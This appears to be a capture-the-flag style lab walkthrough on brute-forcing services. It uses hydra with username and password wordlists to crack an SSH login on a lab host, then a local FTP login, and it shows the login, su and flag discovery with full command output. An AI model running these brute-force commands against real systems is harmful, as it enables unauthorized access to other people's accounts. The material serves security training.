 ## SSH Attack

	The command used to attack a login service is fairly straightforward. We simply have to provide the username/password wordlists, and add `service://SERVER_IP:PORT` at the end. As usual, we will add the `-u -f` flags. 
	when we run the command for the first time, `hydra` will suggest that we add the `-t 4` flag for a max number of parallel attempts, as many `SSH` limit the number of parallel connections and drop other connections, resulting in many of our attempts being dropped. Our final command should be as follows:
```shell-session
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 157116 login tries (l:12/p:13093), ~39279 tries per task
[DATA] attacking ssh://178.35.49.134:22/
[STATUS] 77.00 tries/min, 77 tries in 00:01h, 157039 to do in 33:60h, 4 active
[PORT][ssh] host: 178.35.49.134   login: b.gates   password: ...SNIP...
[STATUS] attack finished for 178.35.49.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```
 takes some time to finish, but eventually, we get a working pair, and we identify the user `b.gates`. Now, we can attempt ssh-ing in using the credentials we got:

```shell-session
canklesmaks@htb[/htb]$ ssh b.gates@178.35.49.134 -p 22

b.gates@SERVER_IP's password: ********

b.gates@bruteforcing:~$ whoami
b.gates
```
As we can see, we can `SSH` in, and get a shell on the server.
## FTP Brute Forcing


Once we are in, we can check out what other users are on the system:

```shell-session
b.gates@bruteforcing:~$ ls /home

b.gates  m.gates
```
We notice another user, `m.gates`. We also notice in our local `recon` that port `21` is open locally, indicating that an `FTP` must be available:

  Service Authentication Brute Forcing

```shell-session
b.gates@bruteforcing:~$ netstat -antp | grep -i list

(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      - 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -    
```
Next, we can try brute forcing the `FTP` login for the `m.gates` user now.

	Note : Sometimes administrators test their security measures and policies with different tools. In this case, the administrator of this web server kept "hydra" installed. We can benefit from it and use it against the local system by attacking the FTP service locally or remotely.

	
So, similarly to how we attacked the `SSH` service, we can perform a similar attack on `FTP`:
```shell-session
b.gates@bruteforcing:~$ hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 92 login tries (l:1/p:92), ~6 tries per task
[DATA] attacking ftp://127.0.0.1:21/

[21][ftp] host: 127.0.0.1   login: m.gates   password: <...SNIP...>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

We can now attempt to `FTP` as that user, or even switch to that user. Let us try both:
```shell-session
b.gates@bruteforcing:~$ ftp 127.0.0.1

Connected to 127.0.0.1.
220 (vsFTPd 3.0.3)
Name (127.0.0.1:b.gates): m.gates

331 Please specify the password.
Password: 

230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir

200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-------    1 1001     1001           33 Sep 11 00:06 flag.txt
226 Directory send OK.
```

And to switch to that user:

```shell-session
b.gates@bruteforcing:~$ su - m.gates

Password: *********
m.gates@bruteforcing:~$
```

```shell-session
m.gates@bruteforcing:~$ whoami

m.gates
```